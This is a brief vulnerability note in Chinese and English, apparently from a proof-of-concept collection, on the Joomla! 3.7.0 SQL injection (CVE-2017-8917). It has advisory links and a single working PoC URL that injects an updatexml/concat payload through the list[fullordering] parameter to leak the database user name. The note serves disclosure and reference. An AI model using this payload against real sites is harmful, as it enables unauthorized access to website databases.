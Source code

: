 # Joomla! 3.7.0 SQL注入(CVE-2017-8917)

## Official

https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html

http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8917

## Affected Version

Joomla! 3.7.0

## PoC

直接访问,爆出数据库用户名：

    http://foo.com/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)



## References

1. http://blog.nsfocus.net/joomla-3-7-0-sql-injection-vulnerability/
